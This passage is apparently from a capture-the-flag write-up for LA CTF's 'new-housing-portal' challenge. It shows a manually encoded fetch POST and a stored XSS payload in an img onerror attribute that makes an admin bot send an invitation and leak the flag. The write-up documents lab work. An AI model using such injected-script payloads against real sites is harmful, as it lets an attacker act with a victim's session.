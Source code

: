 So why didn't it work?

After playing around with my code, I realized why when I looked at what my code was sending:

![------WebKitFormBoundaryAYicWtFJFI9v1WHB Content-Disposition: form-data; name="username" a ------WebKitFormBoundaryAYicWtFJFI9v1WHB--](../images/lactf/nhp-request.png)

It seems by using JavaScript's `FormData` object, it always wraps its data in some `WebKitFormBoundary`, which the server doesn't seem to accept. So I got rid of it and set the `Content-Type` header manually instead:

```js
fetch('/finder', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: 'username=a'
})
```

Running this in the console seemed successful based on the network log.

![The network log has entires for `finder` and `finder?msg=invitation%20sent!`](../images/lactf/nhp-invite-sent.png)

So, I created a new account with the fixed HTML:


```js
<img src=x onerror="fetch('/finder', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: 'username=a' })">
```

I invited `samy`, then made the admin bot visit `https://new-housing-portal.chall.lac.tf/request/`. I checked my invitations:

![From: samy. Deepest Darkest Secret: lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}](../images/lactf/nhp-flag.png)
